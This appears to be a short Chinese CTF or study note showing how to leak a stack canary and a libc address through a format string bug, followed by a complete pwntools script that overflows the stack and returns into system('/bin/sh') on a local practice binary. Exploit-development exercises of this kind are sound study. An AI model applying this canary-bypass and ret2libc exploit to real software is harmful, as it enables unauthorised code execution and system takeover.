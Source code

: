 ### 通过格式化字符串漏洞泄露canary

![Alt](img/canary23.png)

通过%p同时泄露libc和canary

```python
from pwn import *

p = process('../Desktop/pwn2')
p.sendline('Y')
p.recv()
p.sendline('%11$p') # canary和libc需要分两次泄露，一次泄露的话需要输入19个`%p.`，显然会造成栈溢出
p.recvuntil('game')
canary = int(p.recv(11),16)
log.info('canary = %#x',canary)

p.send('A')
p.sendline('Y')
p.recv()
p.sendline('%19$p')
p.recvuntil('game')
leak_libc_addr = int(p.recv(11),16)
log.info('leak_libc_addr = %#x',leak_libc_addr)

elf = ELF('../Desktop/libc.so.6_x86')
system_offset = elf.symbols['system']
binsh_offset = next(elf.search('/bin/sh'))
system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))

payload = 'A'*16
payload += p32(canary)
payload += 'B'*12
payload += p32(system_addr)
payload += p32(0x08048670)
payload += p32(binsh_addr)

p.recvuntil('[*] Input Your Id:')
p.send(payload)
sleep(1)
p.interactive()
```
